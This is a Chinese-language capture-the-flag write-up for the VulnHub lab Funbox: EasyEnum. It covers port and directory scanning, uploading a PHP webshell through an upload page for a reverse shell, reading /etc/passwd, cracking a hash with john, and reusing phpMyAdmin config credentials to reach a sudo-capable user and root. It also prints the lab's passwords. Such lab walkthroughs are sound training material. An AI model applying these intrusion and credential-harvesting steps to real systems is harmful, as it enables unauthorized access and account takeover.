 # Funbox: EasyEnum

2024-5-18 https://www.vulnhub.com/entry/funbox-easyenum,565/

difficulty: easy

## IP

192.168.5.29

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

先看 80 web 服务，进行目录扫描：

```
gobuster dir -u http://192.168.5.29/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

http://192.168.5.29/index.html           (Status: 200) [Size: 10918]
http://192.168.5.29/javascript           (Status: 301) [Size: 317] [--> http://192.168.5.29/javascript/]
http://192.168.5.29/mini.php             (Status: 200) [Size: 4443]
http://192.168.5.29/robots.txt           (Status: 200) [Size: 21]
http://192.168.5.29/secret               (Status: 301) [Size: 313] [--> http://192.168.5.29/secret/]
http://192.168.5.29/phpmyadmin           (Status: 301) [Size: 317] [--> http://192.168.5.29/phpmyadmin/]
```

robots.txt 中的内容：Allow: Enum_this_Box

http://192.168.5.29/secret/ 中显示了一串字符串(回头看来这里是个兔子洞，在迷惑我们)：

```
根密码是用户密码的组合：harrysallygoatoraclelissy
```

http://192.168.5.29/mini.php 是重点内容，可以上传文件。上传我们的 php 后门文件，让后在 kali 上监听 8888 端口，访问 webshell 文件后，得到了反弹的 shell。可以看到文件存储在/var/www/html 中：

```
curl http://192.168.5.29/8888.php
```

/etc/passwd 中有几个用户：

```
root:x:0:0:root:/root:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

oracle 用户的密码存储在/etc/passwd 中，可使用 john 进行破解，明文密码为：hiphop。

根据靶场提示，先访问下 karla 目录，看看有什么信息：

```
www-data@funbox7:/home/karla$ cat read.me
karla is really not a part of this CTF !
```

没什么用，提示这个用户不是这个靶场的关键点(回头看来，这里是在迷惑我们)。

直接切换到 oracle:hiphop 用户，看看能有什么进展，oracle 用户没有 sudo 权限。

内核等其他方面也暂时没发现可以利用的漏洞点。

最开始还有一个 phpmyadmin 的应用，在 /etc/phpmyadmin 中，找到了数据库的配置文件 config-db.php:

```
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

发现了一个新的密码:tgbzhnujm!，尝试用这个密码 su 切换到其他几个非 oracle 用户，看是否有成功的，结果 karla 切换成功。

karla 拥有最全的 sudo 权限，可以直接切换到 root 用户：

```
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# cd /root
root@funbox7:~# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox7:~# ls
html.tar.gz  root.flag  script.sh
root@funbox7:~# cat root.flag
  █████▒ █    ██  ███▄    █  ▄▄▄▄    ▒█████  ▒██   ██▒
▓██   ▒  ██  ▓██▒ ██ ▀█   █ ▓█████▄ ▒██▒  ██▒▒▒ █ █ ▒░
▒████ ░ ▓██  ▒██░▓██  ▀█ ██▒▒██▒ ▄██▒██░  ██▒░░  █   ░
░▓█▒  ░ ▓▓█  ░██░▓██▒  ▐▌██▒▒██░█▀  ▒██   ██░ ░ █ █ ▒
░▒█░    ▒▒█████▓ ▒██░   ▓██░░▓█  ▀█▓░ ████▓▒░▒██▒ ▒██▒
 ▒ ░    ░▒▓▒ ▒ ▒ ░ ▒░   ▒ ▒ ░▒▓███▀▒░ ▒░▒░▒░ ▒▒ ░ ░▓ ░
 ░      ░░▒░ ░ ░ ░ ░░   ░ ▒░▒░▒   ░   ░ ▒ ▒░ ░░   ░▒ ░
 ░ ░     ░░░ ░ ░    ░   ░ ░  ░    ░ ░ ░ ░ ▒   ░    ░
           ░              ░  ░          ░ ░   ░    ░
                                  ░
▓█████  ▄▄▄        ██████ ▓██   ██▓▓█████  ███▄    █  █    ██  ███▄ ▄███▓
▓█   ▀ ▒████▄    ▒██    ▒  ▒██  ██▒▓█   ▀  ██ ▀█   █  ██  ▓██▒▓██▒▀█▀ ██▒
▒███   ▒██  ▀█▄  ░ ▓██▄     ▒██ ██░▒███   ▓██  ▀█ ██▒▓██  ▒██░▓██    ▓██░
▒▓█  ▄ ░██▄▄▄▄██   ▒   ██▒  ░ ▐██▓░▒▓█  ▄ ▓██▒  ▐▌██▒▓▓█  ░██░▒██    ▒██
░▒████▒ ▓█   ▓██▒▒██████▒▒  ░ ██▒▓░░▒████▒▒██░   ▓██░▒▒█████▓ ▒██▒   ░██▒
░░ ▒░ ░ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░   ██▒▒▒ ░░ ▒░ ░░ ▒░   ▒ ▒ ░▒▓▒ ▒ ▒ ░ ▒░   ░  ░
 ░ ░  ░  ▒   ▒▒ ░░ ░▒  ░ ░ ▓██ ░▒░  ░ ░  ░░ ░░   ░ ▒░░░▒░ ░ ░ ░  ░      ░
   ░     ░   ▒   ░  ░  ░   ▒ ▒ ░░     ░      ░   ░ ░  ░░░ ░ ░ ░      ░
   ░  ░      ░  ░      ░   ░ ░        ░  ░         ░    ░            ░
                           ░ ░

...solved !

Please, tweet this screenshot to @0815R2d2. Many thanks in advance.
```

